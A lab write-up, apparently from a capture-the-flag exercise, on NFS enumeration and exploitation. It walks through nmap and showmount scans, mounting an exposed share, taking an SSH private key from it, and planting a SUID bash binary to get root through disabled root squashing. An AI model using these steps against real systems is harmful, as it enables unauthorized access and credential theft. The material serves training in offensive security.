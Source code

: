
Pasted image 20240919160551


NFS stands for "Network File System" and allows a system to share directories and files with others over a network. By using NFS, users and programs can access files on remote systems almost as if they were local files. It does this by mounting all, or a portion of a file system on a server. The portion of the file system that is mounted can be accessed by clients with whatever privileges are assigned to each file.

If someone wants to access a file using NFS, an RPC call is placed to NFSD (the NFS daemon) on the server. This call takes parameters such as:

The file handle
 The name of the file to be accessed
 The user's, user ID
 The user's group ID

These are used in determining access rights to the specified file. This is what controls user permissions, read and write of files.

###  Enumerating NFS:

nmap  -A 10.10.191.163 -T5 -p- -nnvvvv

![[Attachments/Pasted image 20240920095232.png]]
### Using Nmap NSE nfs scripts:

![[Attachments/Pasted image 20240919163929.png]]


 nmap --script nfs-* 10.10.191.163  -T4  -nnvvvv

![[Attachments/Pasted image 20240920095032.png]]

#### Using showmount to list the shares on the remote host:

showmount queries the mount daemon on a remote host for information about the state of the NFS server on that machine. With no options showmount lists the set of clients who are mounting from that host

/usr/sbin/showmount -e 10.10.191.163

![[Attachments/Pasted image 20240920095126.png]]


### Portmap traffic:


The portmap service maps RPC service and version numbers to transport-specific port numbers.

When an RPC service is started, it will tell portmap what port number it is listening to, and what RPC program numbers it is prepared to serve. When a client wishes to make an RPC call to a given program number, it will first contact portmap on the server machine to determine the port number where RPC packets should be sent.
![[Attachments/Pasted image 20240920100456.png]]
### Portmap process:

The server registers with portmap.
The client gets the server’s port from portmap.
The client calls the server.

Network communication: 

![[Attachments/Pasted image 20240920095904.png]]



![[Attachments/Pasted image 20240920100041.png]]

When a client needs to mount a file system from a server, the client must obtain a file handle from the server. The file handle must correspond to the file system. This process requires that several transactions occur between the client and the server. In this example, the client is attempting to mount /home/ from the server 10.10.191.163 . A snoop trace for this transaction follows.

![[Attachments/Pasted image 20240920100127.png]]


### Mounting the share to local machine:

Create a directory where the share will be mounted:

mkdir /tmp/mount


sudo mount -t nfs 10.10.191.163:home /tmp/mount/ -nolock
 
### Breaking this down: 


mount : Execute the mount command

-t nfs : Type of device to mount, then specifying that it's NFS

IP:share:  	The IP Address of the NFS server, and the name of the share we wish to mount

-nolock: pecifies not to use NLM locking

### Navigating to the mounted share:

cd /tmp/mount
ls -l

![[Attachments/Pasted image 20240920102239.png]]
cd cappucino
![[Attachments/Pasted image 20240920102820.png]]
cd .ssh
![[Attachments/Pasted image 20240920102756.png]]

Looking at the connect of the id_rsa key with "nano" command :


![[Attachments/Pasted image 20240920103035.png]]


looking at the content of the authorized_keys with the "cat" command:


![[Attachments/Pasted image 20240920103610.png]]
I copied the private key to my local system and changed the permissions with chmod 600 file_name


ls -lhr id_rsa 
![[Attachments/Pasted image 20240920103435.png]]

### Login into the server via SSH using the private key:


ssh -i id_rsa cappucino@10.10.191.163

![[Attachments/Pasted image 20240920104035.png]]

### Exploding NFS:


By default, on NFS shares- Root Squashing is enabled, and prevents anyone connecting to the NFS share from having root access to the NFS volume. Remote root users are assigned a user “nfsnobody” when connected, which has the least local privileges. Not what we want. However, if this is turned off, it can allow the creation of SUID bit files, allowing a remote user root access to the connected system. 

 Files with the SUID means that the file or files can be run with the permissions of the file(s) owner/group. In this case, as the super-user. We can leverage this to get a shell with these privileges!
### Downloading the bash shell from the NFS server to local system:


scp -i ~/id_rsa  cappucino@10.10.191.163:/bin/bash ~/Downloads/bash

changing the permissions owner to root:

chown root bash

![[Attachments/Pasted image 20240920105617.png]]

Copying the bash file to /tmp/mount directory 

cp ~/Download/bash /tmp/mount

### Changing the permissions to SUID bit  using chmod:

chmod +s bash 


![[Attachments/Pasted image 20240920113954.png]]

## Summary:


NFS Access 
Gain Low Privilege Shell 
Upload Bash Executable to the NFS share
Set SUID Permissions Through NFS Due To Misconfigured Root Squash
Login through SSH
Execute SUID Bit Bash Executable
ROOT ACCESS
